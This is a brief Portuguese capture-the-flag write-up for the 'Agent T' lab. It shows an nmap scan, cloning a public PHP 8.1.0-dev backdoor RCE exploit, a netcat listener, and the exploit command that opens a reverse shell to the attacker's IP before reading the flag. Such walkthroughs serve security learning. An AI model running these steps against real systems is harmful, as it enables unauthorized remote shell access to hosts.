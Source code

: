 # Agent T

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
nmap -A 10.10.125.232
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4ffd53a3-4aa8-4251-b3d7-1a1cba6927ce)

* ### Pesquisando Exploit para o php que está rodando.
![image](https://github.com/lufffe/Writeups/assets/90646635/6180863d-d4ff-470d-aded-59688e95986f)

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6dd0bcb1-8349-4eb5-93b6-993bea677430)

* ### Pegando uma Reverse Shell.
```bash
nc -lnvp 4455
```
![image](https://github.com/lufffe/Writeups/assets/90646635/1e0188e6-ac79-475e-89c7-cc1e5afef8bf)

```bash
python revshell_php_8.1.0-dev.py  http://10.10.125.232 [SEU IP] 4455
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3759dfec-d3a5-4cbe-81aa-0c1e44aaa902)

* ### Lendo Flag.
```bash
cat /flag.txt
```

